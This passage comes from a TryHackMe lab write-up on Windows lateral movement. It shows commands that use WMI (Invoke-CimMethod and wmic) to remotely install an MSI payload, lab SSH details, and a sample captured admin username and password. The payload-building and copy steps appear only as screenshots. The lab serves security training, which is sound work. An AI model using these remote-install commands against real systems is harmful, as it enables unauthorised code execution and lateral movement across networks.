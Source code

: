 * **Ports**:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	
* **Required Group Memberships**: Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

### Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you on Task 1 from http://distributor.za.tryhackme.com/creds. If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 via SSH:

`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:

**User**: ZA.TRYHACKME.COM\t1_corine.waters

**Password**: Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using WMI and MSI packages. Feel free to try the other methods presented during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

**Note**: Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myinstaller.msi" to avoid overwriting someone else's payload.

![task4-terminal1](./images/task4-terminal1.png)

We then copy the payload using SMB or any other method available:

![task4-terminal2](./images/task4-terminal2.png)

